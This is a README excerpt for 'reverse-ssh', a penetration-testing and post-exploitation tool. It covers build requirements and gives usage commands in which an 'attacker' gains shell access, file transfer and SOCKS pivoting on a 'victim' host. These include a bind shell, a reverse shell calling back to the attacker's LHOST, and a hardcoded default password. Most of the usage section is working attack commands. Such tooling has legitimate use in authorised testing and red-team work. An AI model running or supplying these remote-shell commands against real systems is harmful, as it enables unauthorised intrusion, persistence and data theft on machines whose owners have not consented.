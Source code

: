 Simply executing the provided binaries only relies on [golang system requirements](https://github.com/golang/go/wiki/MinimumRequirements#operating-systems).

In short:

* **Linux**: kernel version 2.6.23 and higher
* **Windows**: Windows Server 2008R2 and higher or Windows 7 and higher

Compiling additionally requires the following:

* golang version 1.15
* optionally `upx` for compression (e.g. `apt install upx-ucl`)


## Usage

Once `reverse-ssh` is running on the victim, you can connect with any username and the default password `letmeinbrudipls`, the ssh key or whatever you specified during compilation.
After all, it is just an ssh server:

```
# Fully interactive shell access
$ ssh -p <RPORT> <RHOST>

# Simple command execution
$ ssh -p <RPORT> <RHOST> whoami

# Full-fledged file transfers
$ sftp -P <RPORT> <RHOST>

# Dynamic port forwarding as SOCKS proxy on port 9050
$ ssh -p <RPORT> -D 9050 <RHOST>
```

### Running ReverseSSH as bind shell

```
# Victim
victim$ ./reverse-ssh

# Attacker (default password: letmeinbrudipls)
attacker$ ssh -p 31337 <RHOST>
```

### Running ReverseSSH as reverse shell

Note: you can compile ReverseSSH with parameters for LHOST and LPORT to ease execution on the target, [see below](#build-tricks)

```
# On attacker (get ready to catch the incoming request;
# can be omitted if you already have an ssh daemon running, e.g. OpenSSH)
# NOTE: LPORT of 8888 collides with incoming connections; use the flag `-b 8889` or similar on the victim in that case
attacker$ ./reverse-ssh -v -l -p <LPORT>

# On victim
victim$ ./reverse-ssh -p <LPORT> <LHOST>
# or in case of an ssh daemon listening at port 22 with password authentication for user 'kali'
victim$ ./reverse-ssh -p 22 kali@<LHOST>

# On attacker (default password: letmeinbrudipls)
attacker$ ssh -p 8888 127.0.0.1
# or with ssh config from below
attacker$ ssh target
```
